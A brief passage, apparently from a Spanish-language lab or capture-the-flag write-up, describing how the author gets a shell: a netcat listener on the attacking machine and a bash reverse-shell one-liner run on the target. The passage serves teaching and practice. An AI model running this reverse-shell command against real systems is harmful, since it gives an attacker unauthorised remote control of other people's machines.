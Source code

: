 ### Obtencion de la shell

Lanzo nc -nlvp 1234 para quedarme a la escucha en el puerto 1234 en la red de la maquina objetivo.

![alt text](/images/image-11.png)

En la maquina objetivo lanzo el comando:

```bash
bash -i >& /dev/tcp/10.0.2.14/1234 0>&1
```

![alt text](/images/image-10.png)

Y de nuevo en la maquina atacante veo como he conseguido una shell
